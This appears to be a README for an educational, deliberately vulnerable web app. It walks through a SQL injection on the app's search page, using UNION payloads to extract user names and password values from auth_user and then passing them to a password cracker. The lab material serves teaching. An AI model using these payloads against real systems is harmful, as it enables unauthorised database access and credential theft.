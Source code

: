 How to perform a SQL Injection Attack

### Build

docker build -t logstoneducation/sql-injection:0.0.1 .

### Run

docker run --rm -p 8000:8000 logstoneducation/sql-injection:0.0.1

### Exploit

1. http://127.0.0.1:8000/items/search
  1. Search for a few items (eg. Madison)
1. Check if the search is vulnerable by searching for `blah' UNION SELECT 1'`.
   This cause us to search for "blah" and then UNION that with a `SELECT 1`
   call.
1. It takes some trial and error before we find out the name of the user table:
1. Search for `z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '`
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'`
1. Instead of searching for `first_name`, we can search for `password`.
   1. `SELECT name FROM orders_item WHERE name LIKE '%z' UNION SELECT password FROM auth_user WHERE first_name LIKE '%'`

Now we can take these and pass them to a password cracker like [JTR](https://en.wikipedia.org/wiki/John_the_Ripper).

adding a test line just for learning purposes.
